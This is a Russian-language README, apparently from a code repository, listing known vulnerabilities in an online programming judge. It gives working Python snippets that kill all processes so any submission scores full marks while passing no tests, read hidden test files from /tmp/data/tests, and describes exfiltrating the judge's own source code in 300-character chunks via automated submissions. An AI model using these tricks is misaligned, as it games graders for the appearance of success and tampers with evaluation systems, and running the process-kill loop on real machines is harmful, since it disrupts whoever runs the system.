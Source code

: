 # Известные уязвимости:

## Process kill
- Набирает полный балл по любой задаче, при этом проходит 0 тестов.
```python
import psutil

for process in psutil.process_iter():
    process.kill()
```
Или
```python
import psutil

for process in psutil.process_iter():
    if process.name() == 'python3':
        process.kill()
```

## Доступ к файлам
- Список файлов можно найти [здесь](files.txt). Получен с помощью
```python
print(os.listdir(...))
```

- Идея: выгружать любой файл из тестирующей системы
- Максимальный вывод - 300 символов, приходится разбивать файл на "блоки" по 300 символов
- Чтобы не делать много посылок вручную, была написана программа, автоматизирующая процесс отправки и парсинга вердиктов

### Ограничения по отправкам
- Ограничения на одну одновременно тестирующуюся посылку - исключительно на сайте, реальное ограничение - не более 9ти одновременно тестирующихся посылок

### Тесты
- Тесты лежат в /tmp/data/tests/{номер теста} (/tmp/data/tests/001...)
Можно загружать небольшие тесты через:
```python
print(open('tmp/data/tests/001', 'r').read())
```

### Тестирующая система
- С помощью описанной выше технологии был выгружен код тестирующей системы
- Все файлы лежат в папке sources
